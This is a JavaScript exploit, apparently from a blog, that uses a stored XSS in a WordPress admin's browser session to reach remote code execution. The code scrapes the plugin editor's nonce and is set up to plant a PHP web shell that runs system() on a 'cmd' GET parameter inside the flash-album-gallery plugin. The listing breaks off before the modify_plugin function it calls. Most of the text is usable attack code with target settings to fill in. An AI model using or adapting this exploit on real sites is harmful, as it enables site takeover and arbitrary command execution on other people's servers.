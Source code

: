 The exploit code:  

    :::js
    /* 
     * Copyright: Nikolai Tschacher.
     * Site: incolumitas.com
     * Easy as pie.
     * What: Use this code when you found a stored XSS in a wordpress plugin to gain RCE.
     * How: A wordpress admin needs to run this code in his browser with a valid session id.
     * Idea: Mofify the flash-album-gallery plugin via wordpress admin panel.
     * 
     * Note: This is actually nothing new. It's just one of many ways to gain RCE
     *       if you have a stored XSS in a wordpress session.
     */

    // Without php tags
    // HTML meta chars are in character entity references format.
    var EXPLOIT_CODE = "\nif (isset($_GET[&#039;cmd&#039;])&amp;&amp; !empty($_GET[&#039;cmd&#039;])){ echo &#039;<pre>&#039;;system($_GET[&#039;cmd&#039;]);echo &#039;</pre>&#039;; }";

    // TARGET SETTINGS. Set stuff here.
    var TARGET_WP_PATH = "http://localhost/wordpress";
    var PLUGIN_EDITOR_URL = TARGET_WP_PATH + "/wp-admin/plugin-editor.php";
    var PLUGIN_EDIT_URL = PLUGIN_EDITOR_URL + "?file=flash-album-gallery/flag.php";


    function getXMLHttpRequestObject() {
        var ref = null;
        if (window.XMLHttpRequest) { // For recent browsers.
            ref = new XMLHttpRequest();
        } else if (window.ActiveXObject) { // Older IE 6,7,8
            ref = new ActiveXObject("MSXML2.XMLHTTP.3.0");
        }
        return ref;
    }

    /* Extract the nonce */
    function exploit() {
        var req = null;

        req = getXMLHttpRequestObject();
        req.onreadystatechange = function() {
            if (req.readyState == 4 && req.status == 200) {
                var res = /name="_wpnonce"\svalue=\"[a-z0-9]{10}\"/.exec(req.responseText);
                if (res.length == 1) {
                    nonce =  /[a-z0-9]{10}/.exec(res[0]);
                } else { // The sites not available. Maybe the plugin is not installed?!
                    nonce = null;

                }
                modify_plugin(req.responseText, nonce);
            }
        }
        req.open("GET", PLUGIN_EDIT_URL, true);
        req.send();
    }
